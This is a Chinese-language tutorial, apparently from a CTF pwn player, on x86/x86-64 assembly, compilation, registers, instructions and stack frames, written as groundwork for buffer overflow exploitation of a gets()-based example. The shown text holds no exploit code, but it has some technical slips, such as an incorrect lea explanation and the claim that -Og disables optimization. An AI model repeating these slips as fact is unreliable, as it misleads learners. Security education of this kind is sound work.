# 汇编文档整理

## 前言  

&emsp;&emsp;本文旨在带领你快速了解汇编的特点以及程序运行的基本过程,让你体验专业而粗暴的攻击方式.当初很多人想做hacker就报了计算机专业,结果技能树点错了,成了程序员.做为一个CTF选手,我主要负责pwn--即漏洞利用部分,接下来带你体验二进制攻击.下面我们简单介绍一下你需要了解哪些知识.  

1. 汇编基础  
2. 基本逆向工程  
3. 简单调试技巧  
4. 函数运行时栈的构造与内存分布  
5. 基本Linux基础
6. 缓冲区溢出漏洞利用  

> 本文将对比x86与x86-64程序,即32位与64位,主流机器大部分运行64位程序,但32程序运行的原理十分重要(主要体现在函数调用部分)

建议阅读的资料:
- 汇编语言(王爽)
  -   此书主要介绍8086汇编,虽然8086已经淘汰,但是对理解计算机驱动层十分有益,笔者花了15天读完,建议阅读
- 深入理解计算机系统  
  -  本书为卡内基梅隆大学教材,内容之精妙无法描述orz,全书732页笔者读了一半,打算多刷几遍,强推!!!  
- 程序员的自我修养  
  - 听名字像是颈椎病康复指南之类的书,实际上讲的是编译时链接装载的过程,硬核玩家必看
- SICP  
  - 这是魔法!!!


> 希望在你读完这篇文章的时候能够拿下你的第一台主机.  

---

## 汇编基础  

### 为啥要学汇编
&emsp;&emsp;汇编是逆向工程的基础,许多人都希望能够破解软件,制作游戏外挂,不花钱冲会员等等,这都属于逆向工程的范畴.逆向工程就是在只有二进制文件的时候,我通过反汇编的手段来从二进制文件获得汇编代码,进而对汇编代码进行反编译得到类C的高级语言,以辅助我们了解程序逻辑,挖掘程序漏洞.  

&emsp;&emsp;同时,逆向工程是学习C/C++最好的途径.C系语言本就是为了开发Unix而生,因此他完美的契合Unix生态,因此在Linux下你可以轻易的获得一个程序的指令码(opcode),汇编代码,以及未链接的目标文件.而你学到现在可能都不知道main函数有三个参数,为什么main函数一定要写`return 0;`(虽然你不写,但这是十分差劲的习惯).只有通过阅读汇编代码你才能真正理解程序的运行原理,你才能真正的理解编译的的高明之处,你才能真正领略到前人的伟大智慧.我强烈建议同学们安装ubuntu18.04虚拟机进行实验,这样你才能获得最好的体验.  

&emsp;&emsp;我知道现在流行一种歪风邪气,由于互联网市场膨胀,资本大量流入,大量公司需求网站开发与移动端开发.因此一些学生急功近利,认为自己会写几行php,套个框架,api倒背如流,就算编程大牛了.认为自己会写几行python java,调一调库,用一用flask spring搭个网站,整天拿一些现有的库高谈扩论,写一些业务逻辑,搞几个微信小程序就算是高级程序员了.反而嘲笑C/C++老掉牙,内心浮躁而不愿了解底层,这本身就是一种自欺欺人.多数人由于畏难心理而拒绝C++,只推崇语法糖更加简单的python.作为计算机科学研究人员,我们决不能满足于只写一些应用层逻辑,只有真正了解了计算机的细节,我们才能成为大师,否则你与专科培训班的学生有什么区别.

### 从Hello_world开始  
&emsp;&emsp;你向家里的弟弟妹妹炫耀你的编程技巧时,你可能写过无数次Hello_world来骗他们了,也许你自认为对它十分熟悉,下面我们从头看看到底发生了什么.
&emsp;&emsp;首先你会熟练的写一个hello.c:  

```c
#include<stdio.h>
int main(int argc, char *argv[], char *envp[]){
    printf("Hello World!");
    return 0;
}
```
&emsp;&emsp;或许你在dev-c++里熟练的按下F11,不过在linux终端里,我们使用GNU开源编译器gcc进行编译,命令如下:  

```shell
> gcc -o hello hello.c
```
&emsp;&emsp;在这里,gcc驱动程序读取源程序文件hello.c,并把它翻译成一个可执行的二进制文件,这个翻译过程可分为四个阶段,如下图.这四个阶段的程序(预处理器 编译器 汇编器 链接器)构成了编译系统(Compilation System)

  

- 预处理阶段: 预处理器(cpp)根据一字符#开头的命令修改原始C程序.比如hello.c的第一行`#include<stdio.h>`命令告诉预处理器读取系统头文件stdio.h的内容,并把它直接插入文本程序中.结果就的到了另一个C程序,通常以".i"作为后缀.  
- 编译阶段: 编译器(ccl)将文本文件hello.i翻译成文本文件hello.s,他包含一个汇编程序,该程序的main函数定义,如下:  

```assembly
main:
    subq    $8, %rsp
    movl    $.LC0, %edi
    call    puts
    movl    $0, %eax
    addq    %8, %rsp
    ret
```
&emsp;&emsp;2~7行的每一条汇编语句都描述了一条低级机器语言指令,汇编的牛啤之处就在于它为不同的高级语言的不同编译器提供了通用的输出语言,相当与对底层进行了封装,统一了接口.这是很了不起的一项成就.

- 汇编阶段: 接下来,汇编器(as)将hello.s翻译成机器语言指令,把这些指令打包成可重定位目标程序(relocatable object program)hello.o,hello.o是一个二进制文件,如果你用记事本打开他将看到一堆乱码.  
- 链接阶段: 注意,hello调用了printf函数,这是C标准库所提供的函数,printf存在于一个叫printf.o的单独预编译好了的目标文件中,我们必须使用某种神秘魔法将hello.o与printf.o融合起来,这就是链接器的工作,最后我们就得到了hello文件,这是一个可执行目标文件,可以被加载到内存中,由系统执行.  

&emsp;&emsp;最后,尝试在Linux终端里运行你的程序:  
```shell
> ./hello

Hello World!#
```

&emsp;&emsp;到此为止我们已经稍微了解了Hello_world,当学弟学妹在你面前吹牛的时候,你就可以问他:你知道Hello_world有多复杂吗?

### 汇编风格  
&emsp;&emsp;从传统上来说,汇编有两种风格,一种是AT&T风格,一种是Intel风格.AT&T是Linux默认格式,而Intel则是微软默认格式.两种风格没有好坏之分,下面我们介绍一下他们的区别.我们还是以一个程序为例,首先我们写一个mstore.c文件如下:  
```c
long mult2(long, long);

void multstore(long x, long y, long *dest) {
    long t = mult2(x, y);
    *dest = t;
}
```

&emsp;&emsp;接下来,我们编译这个程序,在命令中使用'-S'选项可以生成汇编代码:  
```shell
> gcc -Og -S mstore.c
```
> 此处'-Og'代表不进行优化,编译器会默认对你写的垃圾代码进行优化  

&emsp;&emsp;接下来你会发现生成了一个mstore.s,里面有各种声明,但是包括如下几行:
```assembly
;AT&T style:
multstore:
pushq	%rbx
movq	%rdx,  %rbx
call		 mult2
movq	%rax, (%rbx)
popq	%rbx
ret
```

&emsp;&emsp;以上代码描述了一系列机器指令,你会注意到里面有各种`%rax`之类的东西,这些%开头的东西就是寄存器(Register).他们是cpu中的储存单元,cpu所进行的一切进算都必须由寄存器储存,同时它也是速度最高的存储单元.我们可以把寄存器理解为局部变量,他用来存储某个函数调用所需要的数据.  

&emsp;&emsp;以上这种带%的汇编就是AT&T风格,他的阅读顺序是从左往右,就像是说话一样自然.而`pushq movq`等等是一些指令,他们实际上就是英文单词push和mov(即move的缩写),至于为什么后面加了一个'q',是因为q描述了mov后面的数据的大小.q代表"4字"(quad words)即一个64位数,即`%rdx`与`%rbx`中存储了long类型的数.而`movq	%rdx, %rbx`的意思就如同字面意思一样,把`%rdx`里的数据移动到`%rbx`里.这就好比C语言中的赋值操作:
```c
%rbx = %rdx
```

> 注: 由于是从16位体系结构扩展为32位的,Intel使用术语 "字(word)"来表示16位数据. 因此称32位数为"双字(double words)",称64位数为"4字(quad words)".
> 在C语言中,int为32位即"双字",4个字节.大家要清楚一点,位(bit) 字节(byte)在任何情况下都是没有歧义的,一个字节就是8位.但是字(word)随着语境的不同大小会发生变化,在这里特指16位,在其他文章中应根据上下文判断.

&emsp;&emsp;接下来我们给出该程序Intel风格的代码:  
```assembly
multstore:
	push	rbx
	mov		rbx, rdx
	call 	   mult2
	mov 	QWRD PTR [rbx], rax
	pop		 rbx
	ret
```
&emsp;&emsp;你可以使用`gcc -Og -S -masm=intel mstore.c`获得该代码,我们可以看到他与AT&T有以下几点不同:
- Intel 代码省略了指令的后缀,我们看到push和mov而不是pushq和movq.  
- Intel 代码省略了寄存器前的%,用的是rbx,而不是%rbx
- Intel 代码用`QWRD	PTR	[rbx]`来描述内存中的内容,而不是`(%rbx)`
- Intel 代码目标与对象与AT&T的相反,比如`mov rbx, rdx`等价于`rbx = rdx`,在AT&T中要写成`movq %rdx, %rbx` 

---

&emsp;&emsp;下面我面介绍一下上面出现的几条指令:  

- `mov`: 他是一个传递指令,表示把数据从一处传递到另一处,你可以简单把他理解为赋值语句
  - 然而mov的操作对象只有如下几种情况:
    1. `mov	rax, rbx`=> `rax = rbx` 即从寄存器到寄存器  
    2. `mov [rax], rbx` => `*rax = rbx` 即从寄存器到内存  
    3. `mov rax, [rbx]` => `rax = *rbx` 即从内存到寄存器  
    4. `mov rax, 3`  => `rax = 3`即将立即数赋值给rax  
    5. `mov [rax], 3`    => `*rax = 3` 即将立即数存储在内存  
> 无论如何都不能`mov [rax], [rbx]` 即不可从内存到内存  
>
> >  至于`[rax]`是什么东西.`[]`是寻址运算符号就相当与C语言中的`*`,他会把`[rax]`中的rax当作指针,去访问rax储存的地址所指向位置的内容.比如,`mov [rax], 3`相当于`*rax = 3`.  
> >  更加复杂的寻址方式暂时跳过  

- `push`: 相信大家应该都用过C++里面的Vector了,应该都比较熟悉push和pop了.push和pop本就是为了栈(Stack)这种数据结构所设计的,`push`和`pop`分别描述了入栈和出栈的操作.


&emsp;&emsp;push就是将数据推入栈中,pop则是从栈中弹出.看似简单的数据结构是则是为了适应工业要求而诞生的产物.在同学们的印象里stack似乎是为了做算法题才创造出来的,实则不是,上古时期,科学家在研究函数调用时发现,他们需要一种能够保存当前状态的东西,这样才能实现函数的递归调用.这样解释可能还是有些抽象.我们举个例子,相信大家都看过<<盗梦空间>>这部电影,我们可以在梦里做梦,深入好几层梦境,其实这就类似与函数的递归,但是如果想要进入下一层梦境,你就必须要储存好当前的状态,这样一来,当你每次醒来时,你都处在之前保存好的状态之中.对于函数而言,每次从内层调用中返回,你都要恢复调用之前的状态,例如:  
```c
int A(){
    B();
    b = a + 1;
    return b;
}
```
&emsp;&emsp;我们看到A()函数调用了B();那么我们首先要清楚一件事,当B()运行结束之后会发生什么?  

&emsp;&emsp;显然要接着继续执行A()后面的指令,那么我们要怎样才能在B()运行结束后回到A()内并继续执行`b = a + 1`呢?很显然,我们必须在执行B()之前就提前保存好当前的所有状态,并且把B()返回后要执行的下一条指令提前储存起来.这样我们才能在每一次函数调用结束后回到原来的位置并继续向下执行.  

&emsp;&emsp;想到这里,似乎stack就是最好的实现方式.在每一次进行函数调用的时候就把当前的相关寄存器的值push进stack,并且把被调函数结束后的返回地址也push进stack,这样以来,当函数结束时,我们只需要把相关数据再pop到对应的寄存器,我们就相当于恢复了调用前的状态,类似于游戏的"存档与读档"的操作.如果我们要实现递归调用,那么我们只需要在每一次调用时建立起新的stack frame即栈帧,每个函数都有自己的栈帧,每个栈帧存储着对应函数调用的数据.因此我们只需要一直push,为每次递归建立新的栈帧,在返回时将对应栈帧的内容pop出来就能完美的实现递归调用.

> 对于栈本身而言,它是人为规定的出来的.我相信很多人仍这种误解:他们认为stack实际存在与计算机中,他们还信誓旦旦的说内存里还有堆(heap),每次malloc或者new就会从堆里面开辟空间,而函数却只会开栈,所以栈和堆实际存在.
>
> > 这种想法是极端错误的,产生这种想法的原因是老师上课讲的比较笼统,而且他们确实是这么说的...其实,stack与heap并不存在,他们是我们人为从内存里划分一部分并且给他们取名叫stack或者heap,他们与其他内存空间并没有本质区别,并不是说内存中的某一段天生就具有push和pop的特效,或者说只是由于前辈使用了一些黑魔法才把普通的内存搞出了stack的功能.
> >
> > > 按照规矩,我们更应该称之为Stack Segment即"栈段"以及Heap Segment即"堆段",因为stack与heap都是内存上的一段.实际上在程序运行时会创建许多的段(segment),比如代码段(Text Segment) BSS段(BSS Segment)等等.我想大家在C/C++编程时经常看到segment这个单词只是你没有留意.一般,你如果产生了内存错误,比如越界访问,就会导致Segment Fault,即"段错误",国内一个还算不错的代码论坛"思否"正是取名于此.下面给大家一个内存宏观图:


&emsp;&emsp;我们在这里只是简单的介绍一下原理,更多的细节在后面会分析.

- `call`: 正如其字面意思,就是调用某个函数的意思,其参数是一段地址  
- `pop`: 其参数应为应为某寄存器,效果是将栈顶数据弹出至目标寄存器.  
- `ret`: 即函数返回  
  - 这里又要强调一下,有一个错误观点:许多人认为函数没有返回值就不需要返回.这个观点是极端错误的.返回的真正意义是:当前被调用函数(called function)执行结束后,回到上层调用函数(callee function)的过程.而返回值仅仅是函数向外层传递出的结果,函数会把想要传递出的结果在返回之前放入%rax寄存器,这个值就叫返回值.  
  - 实际上`ret`等价于`pop %rip`  这里很重要,后文会详细说明.


### 关于常用寄存器介绍  
&emsp;&emsp;cpu的一切活动都是基于寄存器的,你可以把寄存器理解为变量,函数运行所产生的中间变量优先使用寄存器存储,若寄存器存不下则存入内存即栈中,或者用户主动选择分配一段内存即在堆区分配内存用于存储数据.

&emsp;&emsp;先给大家一张寄存器的图:

  

&emsp;&emsp;我们可以看到图中写了一些你根本看不懂的东西(%rax之类的),那就是寄存器的名字,首先这附图的最右边介绍了各种寄存器的作用,比如%rax的作用是储存"Return value",即储存返回值.接着我们看图的最上面写着几个神秘数字`0 7 8 15 31 63`,这一串神秘数字代表了寄存器的大小,你可以清楚的看到,当寄存器的大小不同时,他们的名字似乎不太一样.比如%rax包括了%eax,而%eax包括了%ax,%ax又包括了%ah和%al.为啥好端端的寄存器要分这么细呀?这是由于历史原因造成的.  

&emsp;&emsp;传说,在上古时期,人们还处于只有16位cpu的蛮荒时代,上古大神编程也使用8086汇编.那个时候一个寄存器的大小最大也只有16位,就是上图%ax %bx那一列.可见古代程序员编程条件比较艰苦,虽然寄存器只有16位,但是他们又想实现一些黑魔法来优化算法,这就需要更加细致的操作寄存器,因此他们又把寄存器分成了高8位与低8位两部分,即%ah与%al.  

> 顺便一提:那个时候,想要访问内存是一件很繁琐的事情,由于当时的寄存器只有16位,但是地址的寻址范围确实20位,也就是说一个寄存器是存不下一个完整的地址的,因此大佬们决定用两个寄存器存地址,他们决定用"基址+偏移"的方式储存地址.好了我知道你开始听不懂了,举个栗子:  
>
> 从郊区9斋到老麻抄手距离8848km,到逸夫楼8000Km,现在我有个要求:你只用两个寄存器,每个寄存器不超过三位,让你几下这个距离.你如何操作?  
>
> - 凡夫俗子: 这还不简单,直接从中间分开呗? 
>   - 88  48  俩数,一个才两位,我真nb
> - 大佬: 优化一下
>   - 800  848  (真实地址 = 基地址*偏移+偏移地址) `800 * 10 + 848`

&emsp;&emsp;其实道理很简单,正常人简单的把十进制数分成两半实际上也是基址+偏移的一种,但是由于设计错误,导致基址和偏移要同时发生改变.比如,假如今天想换个口味,想吃九本拉面了,距离变成了8747Km,`87 47`相对于`88 48`变了两个数.而`800 848`相对于`800 747`来说只变了一个偏移,这样就可以减少一次修改寄存器的操作. 

> 这种寻址方式称之为"间址寻址"(因为是间接的嘛),由于现在的寄存器都容量很大所以这种寻址方式变得不再常见,但是这种神奇的思想依然十分重要,在函数建立栈帧的时候依然使用间址寻址的方式,请大家反复思索并理解.

&emsp;&emsp;如今大家的程序基本都是64位的,即x86-64所以寄存器一般是"r"开头的,比如%rax之类的,四五年前流行32位的程序,即x86,寄存器大小一般是32位,以"e"开头,比如%eax.如今的机器为了向下兼容以前的程序,仍然保留之前的寄存器模型,所以%rax的低32位仍然是%eax,就像图中显示的那样.

&emsp;&emsp;有些寄存器具有特殊的功能,比如%rip  %rsp  %rbp等等,稍微介绍一下:  

- %rip: 指令指针(Instruction Pointer)寄存器,因此在8086中被缩写为ip,32位时为%eip.  
  - 作用是存储下一条要执行的指令的地址 
  - 敲重点! 假如能够修改这个寄存器,那么我们似乎就可以控制程序流程,进而控制整个计算机系统  
  - 你不能像访问通用寄存器那样访问它,即找不到可用来寻址EIP并对其进行读写的操作码(OpCode).EIP可被jmp、call和ret等指令隐含地改变(事实上它一直都在改变).

- %rsp: 栈顶指针(Stack Pointer)寄存器,8086中为sp,32位为%esp  

  - 众所周知stack具有底(第一个入栈的)和顶(最后一个入栈的),rsp指向栈顶

- %rbp: 栈基指针(Base Pointer)寄存器,8086中为bp,32位为%ebp  
  - 与%rsp对应,%rbp指向栈底  
  - 也就是说这俩寄存器指向内存中的栈段(stack segment)

- %rdi %rsi %rdx  %rcx  %r8  %r9: 在x86-64位程序中,分别是调用函数时传递参数时使用的,若有更多参数,则存入栈中.例如:

  - `printf("%d %d %d %d %d %d %d",1,2,3,4,5,6,7);`则1-6分别存在%rdi - %r9中,'7'则存于栈上.  
  - 需要注意的是x86程序,即32位程序的传参方式与64位区别很大,32位程序的参数传递完全依靠栈.

> 扩展阅读
>
> > 为了访问函数局部变量，必须能定位每个变量。局部变量相对于堆栈指针ESP的位置在进入函数时就已确定，理论上变量可用ESP加偏移量来引用，但ESP会在函数执行期随变量的压栈和出栈而变动。尽管某些情况下编译器能跟踪栈中的变量操作以修正偏移量，但要引入可观的管理开销。而且在有些机器上(如Intel处理器)，用ESP加偏移量来访问一个变量需要多条指令才能实现。
> >
> > 因此，许多编译器使用帧指针寄存器FP(Frame Pointer)记录栈帧基地址。局部变量和函数参数都可通过帧指针引用，因为它们到FP的距离不会受到压栈和出栈操作的影响。有些资料将帧指针称作局部基指针(LB-local base pointer)。
> >
> > 在Intel CPU中，寄存器BP(EBP)用作帧指针。在Motorola CPU中，除A7(堆栈指针SP)外的任何地址寄存器都可用作FP。当堆栈向下(低地址)增长时，以FP地址为基准，函数参数的偏移量是正值，而局部变量的偏移量是负值。

> 请同学们务必记牢我上面提到的寄存器的作用,都是英文缩写,不难记.  

#### 常用指令  

&emsp;&emsp;基本的指令其实没有几条,上面已经介绍不少了,我们再介绍几个常用的就可以开始实战了,下面我们看个例子:



&emsp;&emsp;首先可以告诉大家这个程序是有严重漏洞的,可以导致系统被"get shell"(就是说拿到最高控制权限啦).  



&emsp;&emsp;这是老师课件上的例题,这就是教科书式的漏洞,这段程序与上边的汇编的区别就是输出的方式不同,汇编里用的puts()函数,下面使用了for loop进行输出.其他的基本一致.漏洞就发生在被标红的gets函数那里,我记得这一课讲的是如何把输入的空格读进来,因为cin不行,所以选择了gets()函数.在此强调:  

> 永远都不要使用gets()函数,他对输入长度没有限制与检查,会爆栈,造成严重的缓冲区溢出.  
>
> 为了让大家体验到这种漏洞的严重性,我决定一会就让大家攻击这个"模范"程序进行实验.

&emsp;&emsp;介绍一下,剩下几个指令:

- `sub`: 故名思意,减的意思.`sub eax, 0xc` 就是`eax = eax - 0xc`的意思
  - AT&T写法:`sub  $0xc, %eax` 	
  - 注:'$'开头的东西叫"立即数",就是常数 
- `add`: 与sub同理,不再赘述
- `lea`:这个指令比较神奇,她叫做"加载有效地址(Load Effective Address)",其实就是C/C++里的取址操作,例如:
  - `lea eax, 13(esp)`等价于`eax = *(esp-13)`
  - lea还可以用于简单的算数计算,例如:
    - `lea	rax, (rdi,rsi,4)`等价于`rax = rdi + rsi * 4`
- `nop`: 啥也不干...理论上等价于....`mov eax, eax` ,主要起到延时的作用.  
- `jmp:` 故名思意,jump跳转的意思,用法`jmp 0x400ac`,意思是跳转到0x400ac这个地放执行指令.
  - jmp一般会出现在: if-else语句  goto语句   各种loop
  - 同系列还有`je  jne  jle  jge jl jg`,他们是"条件跳转",若等于则跳转,若不等于则跳转,若小于等于则跳转,若大于等于则跳转........自行脑补
> 汇编中,循环一般使用jmp进行实现,其实就是jmp到循环开始的地方

- `cmp`: compare比较的意思,就是比较一下两个对象是否相等,用法:`cmp eax, 1`比较eax是否等于1,一般用于if-else语句,循环判断等等...

> 我只是粗略的介绍了一下各种指令,如果你想要深入学习可以读<<汇编语言>>王爽的那本,下面给一个汇编教程网站[Assembly Language](https://www.tutorialspoint.com/assembly_programming/assembly_basic_syntax.htm),质量挺好.

&emsp;&emsp;放一下上面那段程序的AT&T代码:


接下来我们进行重点讲解,函数调用时栈的构造与内存变化及传参方式.

#### 函数调用时栈的构造  

&emsp;&emsp;程序本身就是各种函数的组合,因此了解函数的运行原理极为重要,这一部分是我们日后实施攻击的关键.

1. 关于寄存器使用的约定:  

 &emsp;&emsp;程序寄存器组是唯一能被所有函数共享的资源。虽然某一时刻只有一个函数在执行，但需保证当某个函数调用其他函数时，被调函数不会修改或覆盖主调函数稍后会使用到的寄存器值。因此，IA32采用一套统一的寄存器使用约定，所有函数(包括库函数)调用都必须遵守该约定。  
&emsp;&emsp;根据惯例，寄存器%eax、%edx和%ecx为主调函数保存寄存器(caller-saved registers)，当函数调用时，若主调函数希望保持这些寄存器的值，则必须在调用前显式地将其保存在栈中；被调函数可以覆盖这些寄存器，而不会破坏主调函数所需的数据。寄存器%ebx、%esi和%edi为被调函数保存寄存器(callee-saved registers)，即被调函数在覆盖这些寄存器的值时，必须先将寄存器原值压入栈中保存起来，并在函数返回前从栈中恢复其原值，因为主调函数可能也在使用这些寄存器。此外，被调函数必须保持寄存器%ebp和%esp，并在函数返回后将其恢复到调用前的值，亦即必须恢复主调函数的栈帧。  
&emsp;&emsp;当然，这些工作都由编译器在幕后进行。不过在编写汇编程序时应注意遵守上述惯例。

2. 栈帧结构:  

&emsp;&emsp;函数调用经常是嵌套的，在同一时刻，堆栈中会有多个函数的信息。每个未完成运行的函数占用一个独立的连续区域，称作栈帧(Stack Frame)。栈帧是堆栈的逻辑片段，当调用函数时逻辑栈帧被压入堆栈, 当函数返回时逻辑栈帧被从堆栈中弹出。栈帧存放着函数参数，局部变量及恢复前一栈帧所需要的数据等。

 &emsp;&emsp;编译器利用栈帧，使得函数参数和函数中局部变量的分配与释放对程序员透明。编译器将控制权移交函数本身之前，插入特定代码将函数参数压入栈帧中，并分配足够的内存空间用于存放函数中的局部变量。使用栈帧的一个好处是使得递归变为可能，因为对函数的每次递归调用，都会分配给该函数一个新的栈帧，这样就巧妙地隔离当前调用与上次调用。

&emsp;&emsp;栈帧的边界由栈帧基地址指针EBP和堆栈指针ESP界定(指针存放在相应寄存器中)。EBP指向当前栈帧底部(高地址)，在当前栈帧内位置固定；ESP指向当前栈帧顶部(低地址)，当程序执行时ESP会随着数据的入栈和出栈而移动。因此函数中对大部分数据的访问都基于EBP进行。

&emsp;&emsp;为更具描述性，以下称EBP为帧基指针， ESP为栈顶指针，并在引用汇编代码时分别记为%ebp和%esp。  

&emsp;&emsp;函数调用栈的典型内存布局如下图所示：


&emsp;&emsp;图中给出主调函数(caller)和被调函数(callee)的栈帧布局，"m(%ebp)"表示以EBP为基地址、偏移量为m字节的内存空间(中的内容)。该图基于两个假设：第一，函数返回值不是结构体或联合体，否则第一个参数将位于"12(%ebp)" 处；第二，每个参数都是4字节大小(栈的粒度为4字节)。在本文后续章节将就参数的传递和大小问题做进一步的探讨。  此外，函数可以没有参数和局部变量，故图中“Argument(参数)”和“Local Variable(局部变量)”不是函数栈帧结构的必需部分。

&emsp;&emsp;从图中可以看出，函数调用时入栈顺序为:

> 实参N~1→主调函数返回地址→主调函数帧基指针EBP→被调函数局部变量1~N


&emsp;&emsp;其中，主调函数将参数按照调用约定依次入栈(图中为从右到左)，然后将指令指针EIP入栈以保存主调函数的返回地址(下一条待执行指令的地址)。进入被调函数时，被调函数将主调函数的帧基指针EBP入栈，并将主调函数的栈顶指针ESP值赋给被调函数的EBP(作为被调函数的栈底)，接着改变ESP值来为函数局部变量预留空间。此时被调函数帧基指针指向被调函数的栈底。以该地址为基准，向上(栈底方向)可获取主调函数的返回地址、参数值，向下(栈顶方向)能获取被调函数的局部变量值，而该地址处又存放着上一层主调函数的帧基指针值。本级调用结束后，将EBP指针值赋给ESP，使ESP再次指向被调函数栈底以释放局部变量；再将已压栈的主调函数帧基指针弹出到EBP，并弹出返回地址到EIP。ESP继续上移越过参数，最终回到函数调用前的状态，即恢复原来主调函数的栈帧。如此递归便形成函数调用栈。

&emsp;&emsp;EBP指针在当前函数运行过程中(未调用其他函数时)保持不变。在函数调用前，ESP指针指向栈顶地址，也是栈底地址。在函数完成现场保护之类的初始化工作后，ESP会始终指向当前函数栈帧的栈顶，此时，若当前函数又调用另一个函数，则会将此时的EBP视为旧EBP压栈，而与新调用函数有关的内容会从当前ESP所指向位置开始压栈。

&emsp;&emsp;若需在函数中保存被调函数保存寄存器(如ESI、EDI)，则编译器在保存EBP值时进行保存，或延迟保存直到局部变量空间被分配。在栈帧中并未为被调函数保存寄存器的空间指定标准的存储位置。包含寄存器和临时变量的函数调用栈布局可能如下图所示：


>      在多线程(任务)环境，栈顶指针指向的存储器区域就是当前使用的堆栈。切换线程的一个重要工作，就是将栈顶指针设为当前线程的堆栈栈顶地址。

&emsp;&emsp;内存地址从栈底到栈顶递减，压栈就是把ESP指针逐渐往地低址移动的过程。而结构体tStrt中的成员变量memberX地址=tStrt首地址+(memberX偏移量)，即越靠近tStrt首地址的成员变量其内存地址越小。因此，结构体成员变量的入栈顺序与其在结构体中声明的顺序相反。

&emsp;&emsp;函数调用以值传递时，传入的实参(locMain1~3)与被调函数内操作的形参(para1~3)两者存储地址不同，因此被调函数无法直接修改主调函数实参值(对形参的操作相当于修改实参的副本)。为达到修改目的，需要向被调函数传递实参变量的指针(即变量的地址)。

&emsp;&emsp;此外，"[locMain1,2,3] = [0, 0, 3]"是因为对四字节参数locMain2调用memset函数时，会从低地址向高地址连续清零8个字节，从而误将位于高地址locMain1清零。

&emsp;&emsp;注意，局部变量的布局依赖于编译器实现等因素。因此，当StackFrameContent函数中删除打印语句时，变量locVar3、locVar2和locVar1可能按照从高到低的顺序依次存储！而且，局部变量并不总在栈中，有时出于性能(速度)考虑会存放在寄存器中。数组/结构体型的局部变量通常分配在栈内存中。

> 扩展阅读
> 函数局部变量布局方式
>
